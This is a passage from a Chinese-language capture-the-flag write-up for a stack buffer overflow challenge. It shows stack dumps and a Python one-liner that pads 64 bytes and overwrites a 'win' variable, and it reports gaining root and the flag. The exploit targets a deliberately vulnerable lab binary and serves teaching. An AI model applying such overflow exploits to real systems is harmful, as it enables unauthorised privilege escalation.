 ```assembly
0xffa81958: 0x41414141
0xffa81954: 0x41414141
0xffa81950: 0x41414141
0xffa8194c: 0x41414141
0xffa81948: 0x41414141
0xffa81944: 0x41414141
0xffa81940: 0x41414141
0xffa8193c: 0x41414141 (beginning of buffer)
win = 66
Sorry, you lose.
```

**步骤5：** 你会看到，如果我们填满了缓冲区（“A”* 64）和一个"B"字母，win的值会改变。 对于那些不知道的人，“B”的ascii值是66，这意味着我们可以控制win变量。 我们所要做的就是提交一个ascii值为1的字符。由于这是不可打印的，我们将在python中使用转义序列。

```assembly
$ ./overflow1-3948d17028101c40 $(python -c 'print "A"*64 + "\x01"')
Stack dump:
0xff828874: 0xff829848 (second argument)
0xff828870: 0x00000000 (first argument)
0xff82886c: 0x0804870f (saved eip)
0xff828868: 0xff828898 (saved ebp)
0xff828864: 0xf77b7000
0xff828860: 0xf76c3aa7
0xff82885c: 0x00000001
0xff828858: 0x41414141
0xff828854: 0x41414141
0xff828850: 0x41414141
0xff82884c: 0x41414141
0xff828848: 0x41414141
0xff828844: 0x41414141
0xff828840: 0x41414141
0xff82883c: 0x41414141
0xff828838: 0x41414141
0xff828834: 0x41414141
0xff828830: 0x41414141
0xff82882c: 0x41414141
0xff828828: 0x41414141
0xff828824: 0x41414141
0xff828820: 0x41414141
0xff82881c: 0x41414141 (beginning of buffer)
win = 1
$
```

**步骤6：** 之后，我们输入id，发现我们已经拿到了root的权限。然后我们再cat flag，这次便成功获取到flag了。

